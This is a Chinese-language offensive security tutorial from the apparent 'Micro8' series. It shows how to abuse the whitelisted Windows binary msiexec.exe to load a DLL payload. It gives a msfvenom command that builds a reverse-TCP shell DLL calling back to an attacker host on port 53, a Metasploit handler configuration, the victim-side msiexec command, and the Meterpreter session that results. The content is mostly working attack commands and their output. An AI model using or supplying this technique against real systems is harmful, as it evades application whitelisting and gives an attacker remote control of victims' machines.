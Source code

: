 ```yaml
---
title: 86、基于白名单Msiexec执行payload第八季补充
date: 2019-09-21 19:06:46
comments: true
categories: 
 - Micro8系列
---
```



**注：**请多喝点热水或者凉白开，身体特别重要。

本季补充本地DLL加载  
**Msiexec简介：**

Msiexec是Windows Installer的一部分。用于安装Windows Installer安装包（MSI）,一般在运行Microsoft Update安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于Windows 2003，Windows 7等。

**说明：**Msiexec.exe所在路径已被系统添加PATH环境变量中，因此，Msiexec命令可识别。

### 基于白名单Msiexec.exe配置payload：
**注：x64 payload**

```code
msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐ f dll > Micropoor_rev_x64_53.dll
```

### 配置攻击机msf：
**注：x64 payload**
```code
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/x64/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process,none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](../do/media/62736d164fb64b1462810cfea7bd472c.jpg)

### 靶机执行：
```code
msiexec /y C:\Users\John\Desktop\Micropoor_rev_x64_dll.dll
```
![](../do/media/b8cbb9334f2281d8cd8f70052c2a02a9.jpg)
```code
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53

[*] Sending stage (206403 bytes) to 192.168.1.5

[*] Meterpreter session 26 opened (192.168.1.4:53 ‐> 192.168.1.5:11543)
at 2019‐01‐20 09:45:51 ‐0500

meterpreter > getuid

Server username: John‐PC\John

meterpreter > getpid

Current pid: 7672

meterpreter > 
```

![](../do/media/84fb0dd629aae878607221e385dfff34.jpg)

>   Micropoor
